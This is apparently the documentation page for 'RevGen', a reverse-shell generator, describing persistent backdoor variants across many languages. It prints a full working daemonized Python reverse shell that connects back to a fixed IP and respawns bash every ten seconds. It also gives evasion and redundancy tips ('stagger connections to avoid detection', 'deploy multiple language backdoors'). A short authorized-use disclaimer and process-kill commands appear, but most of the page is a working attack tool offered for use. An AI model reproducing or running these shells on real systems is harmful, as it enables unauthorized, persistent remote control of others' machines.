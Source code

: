 # 💀 RevGen Persistent Shells Guide

## 🎯 Overview

RevGen now supports **persistent variants** for ALL available shell languages! These persistent shells automatically:

- **Daemonize** and run in the background
- **Survive terminal closure**
- **Auto-reconnect** every 10 seconds if connection is lost
- **Operate independently** of the parent process

## 🧞‍♂️ Available Persistent Shells

### **Python-Based Persistent Shells**
```bash
# Python (Persistent) - True daemon with fork()
revgen --ip 192.168.1.100 --port 4444 --lang python_persistent

# Python3 (Persistent) - True daemon with fork()
revgen --ip 192.168.1.100 --port 4444 --lang python3_persistent
```

### **Shell-Based Persistent Shells**
```bash
# Bash (Persistent) - Uses nohup with infinite loop
revgen --ip 192.168.1.100 --port 4444 --lang bash_persistent

# Shell (Persistent) - POSIX shell with nohup
revgen --ip 192.168.1.100 --port 4444 --lang sh_persistent
```

### **Scripting Language Persistent Shells**
```bash
# Perl (Persistent) - Fork-based daemon
revgen --ip 192.168.1.100 --port 4444 --lang perl_persistent

# PHP (Persistent) - Uses pcntl_fork() for daemonization
revgen --ip 192.168.1.100 --port 4444 --lang php_persistent

# Ruby (Persistent) - Process.daemon for background execution
revgen --ip 192.168.1.100 --port 4444 --lang ruby_persistent

# Node.js (Persistent) - Detached child process
revgen --ip 192.168.1.100 --port 4444 --lang node_persistent
```

### **Network Tool Persistent Shells**
```bash
# Netcat (Persistent) - Infinite loop with nohup
revgen --ip 192.168.1.100 --port 4444 --lang nc_persistent

# Netcat OpenBSD (Persistent) - Named pipe approach
revgen --ip 192.168.1.100 --port 4444 --lang nc_openbsd_persistent

# Socat (Persistent) - Full TTY with persistence
revgen --ip 192.168.1.100 --port 4444 --lang socat_persistent
```

### **Compiled Language Persistent Shells**
```bash
# Go (Persistent) - Infinite loop with temp file
revgen --ip 192.168.1.100 --port 4444 --lang golang_persistent

# Java (Persistent) - Infinite loop with temp compilation
revgen --ip 192.168.1.100 --port 4444 --lang java_persistent
```

### **Windows Persistent Shell**
```bash
# PowerShell (Persistent) - Hidden window with infinite loop
revgen --ip 192.168.1.100 --port 4444 --lang powershell_persistent
```

## 🔥 Example Usage

### **Generate All Persistent Shells**
```bash
# See all available persistent options
revgen --list | grep persistent

# Generate specific persistent shell
revgen --ip 10.0.0.5 --port 9001 --lang python3_persistent --copy

# Generate persistent bash shell
revgen --ip 192.168.1.100 --port 4444 --lang bash_persistent
```

### **Your Original Python3 Persistent Example**
```bash
# This is equivalent to:
revgen --ip 192.168.29.31 --port 4444 --lang python3_persistent
```

Which generates:
```python
python3 -c "import socket,subprocess,os,time,sys;exec('try:\n if os.fork()>0:sys.exit(0)\nexcept:sys.exit(1)\nos.setsid();os.chdir(\'/\');\nwhile True:\n try:\n  s=socket.socket();s.connect((\'192.168.29.31\',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\'/bin/bash\',\'-i\'])\n except:time.sleep(10)\n finally:\n  try:s.close()\n  except:pass')" &
```

## ⚡ Key Features of Persistent Shells

### **1. True Background Execution**
- All persistent shells run as background processes
- Detached from parent terminal/session
- Immune to terminal closure

### **2. Auto-Reconnection**
- Built-in retry logic (10-second intervals)
- Survives network interruptions
- Continuous connection attempts

### **3. Stealth Operation**
- Output redirected to `/dev/null`
- Silent operation (no console output)
- Minimal process signatures

### **4. Cross-Platform Support**
- Linux/Unix: Fork-based daemons
- Windows: Hidden PowerShell processes
- Universal: Language-agnostic approaches

## 🎯 Termination Commands

### **Quick Kill Commands for All Persistent Shells**
```bash
# Kill Python-based persistent shells
sudo pkill -f "python.*socket.*subprocess"

# Kill bash-based persistent shells  
sudo pkill -f "bash.*while.*tcp"

# Kill any shell connecting to your IP
sudo pkill -f "192.168.29.31.*4444"

# Nuclear option - kill all suspicious processes
sudo pkill -f "(python|bash|perl|php|ruby|node).*socket"
```

## 🚀 Advanced Examples

### **Compare Regular vs Persistent**
```bash
# Regular shell (terminates when terminal closes)
revgen --ip 192.168.1.100 --port 4444 --lang python3

# Persistent shell (survives terminal closure)
revgen --ip 192.168.1.100 --port 4444 --lang python3_persistent
```

### **Multiple Persistent Shells**
```bash
# Deploy multiple language backdoors for redundancy
revgen --ip 192.168.1.100 --port 4444 --lang python3_persistent --copy
revgen --ip 192.168.1.100 --port 4445 --lang bash_persistent --copy  
revgen --ip 192.168.1.100 --port 4446 --lang perl_persistent --copy
```

## ⚠️ Important Notes

1. **Root Privileges**: Some persistent shells may require elevated privileges
2. **Process Detection**: Persistent processes are more detectable by system monitoring
3. **Resource Usage**: Infinite loops consume system resources
4. **Legal Warning**: Only use on authorized systems you own or have permission to test

## 💡 Pro Tips

- **Stagger Connections**: Use different ports to avoid detection
- **Multiple Languages**: Deploy various shells for redundancy
- **Monitor Processes**: Check running processes to verify persistence
- **Clean Termination**: Always properly terminate persistent shells after testing

---

**Generated by RevGen - The Reverse Shell Genie 🧞‍♂️**

*Remember: With great power comes great responsibility. Use ethically!*
